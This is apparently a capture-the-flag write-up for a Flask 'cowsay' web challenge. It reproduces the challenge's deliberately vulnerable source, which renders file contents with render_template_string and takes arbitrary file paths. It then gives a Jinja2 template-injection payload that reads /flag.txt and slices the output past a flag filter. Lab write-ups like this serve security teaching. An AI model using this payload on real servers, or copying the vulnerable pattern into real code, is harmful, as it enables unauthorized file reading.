 ```yaml
---
title: "OSU League 2020/2021 - WEB_THREE"
date: 2021-03-07
tags:
  - osuleague
  - ctf
  - security
---
```


For this challenge, we are given a website that bears a resemblance to a previous challenge we did (cowsay), though this one is a bit more complicated.

{{< figure src="/img/1.png" >}}

We can start by just entering in some text and seeing what happens:

{{< figure src="/img/2.png" >}}

Neat! Let's look at the source code:

```python
# coding=utf-8

from flask import render_template, render_template_string, flash, redirect, session, url_for, request, g, Markup, Response
from app import app
import uuid
import traceback
import os

def _generate_cowsay_file():
    return '/tmp/cow-' + str(uuid.uuid4())


@app.route('/')
@app.route('/index')
def index():
    return render_template('index.html')


@app.route('/cowsay')
def cowsay():
    filename_in = _generate_cowsay_file()
    filename_out = _generate_cowsay_file()
    with open(filename_in, 'w') as f:
        f.write(str(request.args.get('msg'))[:2000])

    # cowsay!
    os.system('cat ' + filename_in + ' | /usr/games/cowsay -TU -W 2000 > ' + filename_out + ' 2>&1')
    return redirect('/render?path=' + filename_out, code=302)


@app.route('/render')
def about():
    try:
        with open(request.args.get('path', 'layout.html'), 'r') as f:
            resp = render_template_string('''{% extends "layout.html" %}{% block content %}<div class="jumbo"><h1>Your cow says...</h1><code>''' + f.read() + '''</code><br><p><a href="/">do it again!!!!!!!!!</a></p></div>{% endblock %}''')

            # check if the user is trying to do something evil :((
            if u'OSUSEC{' in resp:
                resp = u'I see the flag in the response! Nice try.'

            return Response(response=resp, status=200)
    except:
        msg = 'We could not fetch your page! Sorry :(\n\n' + traceback.format_exc()
        return Response(response=msg, status=500, mimetype='text/plain')
```

Ah, we have a Flask challenge.  We've done this before (see nopship)! All we have to do is a Flask injection to do arbitrary read on `flag.txt`, but there is a slight problem, the server actually checks to see if 'OSUSEC{' is in the output, and aborts if it does. That's ok, because we can just read only the text after that.

Doing a simple google search for arbitrary read with Flask injection will give us our payload:

```
{{ config.items()[4][1].__class__.__mro__[1].__subclasses__()[40]("/flag.txt").read()[27:120] }}
```

And running it we get the flag!

{{< figure src="/img/3.png" >}}

```
OSUSEC{ok_s0_y0u_f1gur3d-out_d1rect0ry-tr@versal_w0nt-b3_helpful-here?}
```
